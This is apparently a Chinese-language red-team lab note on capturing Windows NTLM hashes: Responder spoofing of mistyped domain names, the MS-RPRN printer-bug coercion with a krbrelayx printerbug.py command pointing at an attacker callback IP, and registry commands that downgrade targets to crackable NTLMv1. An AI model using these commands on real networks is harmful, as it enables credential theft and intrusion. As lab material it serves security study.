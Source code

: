 ### 通过错误域名获取hash

Responder 还有通过 http 协议来骗取 hash 值的功能，由于 win7 默认会尝试通过 LLMNR、NBNS 协议解析域名，那么 win7 输入错误域名后会被欺骗并解析到 kali，随后 responder 会要求 NTLM 认证，受害机器就会发送 hash 值。

需要交互获取 hash 值,进行下测试，开启 responder、win7 打开 ie 浏览器访问一个不存在的域名

chrome 在开启 WPAD 设置时也会默认被欺骗(默认开启),firefox不会有这个问题

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/9.png)

在 Windows 机器上 ：打开文件浏览器，连接 file:////xxxxxx/test.htlm (或者任意文件名)；

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/8.png)

### 其他

**打印机 printer bug**

Windows 的 MS-RPRN 协议用于打印客户机和打印服务器之间的通信，默认情况下是启用的。协议定义的 RpcRemoteFindFirstPrinterChangeNotificationEx() 调用创建一个远程更改通知对象，该对象监视对打印机对象的更改，并将更改通知发送到打印客户端。

任何经过身份验证的域成员都可以连接到远程服务器的打印服务（spoolsv.exe），并请求对一个新的打印作业进行更新，令其将该通知发送给指定目标。之后它会将立即测试该连接，即向指定目标进行身份验证（攻击者可以选择通过 Kerberos 或 NTLM 进行验证）。微软表示这个 bug 是系统设计特点，无需修复。

工作组触发 printerbug 是没问题，pipepotato 在工作组内也能起作用，问题在打印机服务是以 system 用户的权限运行的服务，system 用户在工作组内的网络凭据是匿名的，wireshark 抓包应该可以看到是 \，也就是不携带任何凭据。域内能利用是因为 system 用户在域内的网络凭据是机器用户的凭据。所以主要问题应该是网络凭据这块。network service 的网络凭据也是机器用户,pc默认会开启，且一般很少去关

- **krbrelayx**
  - [dirkjanm/krbrelayx](https://github.com/dirkjanm/krbrelayx)
    ```
    python3 printerbug.py 域/用户名:密码@打印机服务ip 回连ip
    ```

---

## 加密降级攻击(或使用 Internal-Monologue)

在实际情况中，NTLMv1 hash 也是存在于 winserver 2003、windows xp 上，而在 win7 上是默认关闭的，我们可以通过修改注册表的方式，使 win7 支持 NTLM V1 认证.

由于 NTLM V1 认证过程的特殊性，非常容易被破解并还原出 NTLM HASH,为破解 NTLMv1 hash，我们还需要做一些准备，在 “欺骗阶段”，所以我们需要将 challenge 固定下来，得出特定 challenge 的 NTLMv1 hash，方便后续破解

这里手动在目标机器上降级
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\ /v lmcompatibilitylevel /t REG_DWORD /d 2 /f
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ /v NtlmMinClientSec /t REG_DWORD /d 536870912 /f
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ /v RestrictSendingNTLMTraffic /t REG_DWORD /d 0 /f
```

修改 responder 配置文件,这里我们需要修改 responder.conf 里边的 challenge 值为 `1122334455667788`，然后再次开启 responder（注意加上 --lm 参数），此时收到的 NTLMv1 hash 就可以直接破解并还原出 NTLM HASH。
```
vim /usr/share/responder/Responder.conf
```
